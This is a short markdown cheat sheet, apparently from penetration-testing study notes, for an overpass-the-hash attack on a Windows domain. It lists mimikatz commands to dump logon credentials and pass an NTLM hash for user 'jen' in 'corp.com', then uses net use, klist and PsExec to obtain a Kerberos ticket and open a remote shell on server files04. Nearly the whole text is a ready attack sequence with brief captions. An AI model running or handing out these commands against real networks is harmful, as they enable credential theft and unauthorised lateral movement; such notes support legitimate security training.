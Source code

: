 NTLM Hash -> generate TGT -> abuse TGT

dumping password hash for target user with mimikatz
```
sekurlsa::logonpasswords
```

Creating a process with a different user's NTLM password hash
```
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```

generate a TGT by authenticating to a network share on the files04 server with net use
```
net use \\files04
```

 inspect the current TGT available for the running user
```
 klist
```

Opening remote connection using Kerberos
```
.\PsExec.exe \\files04 cmd
```
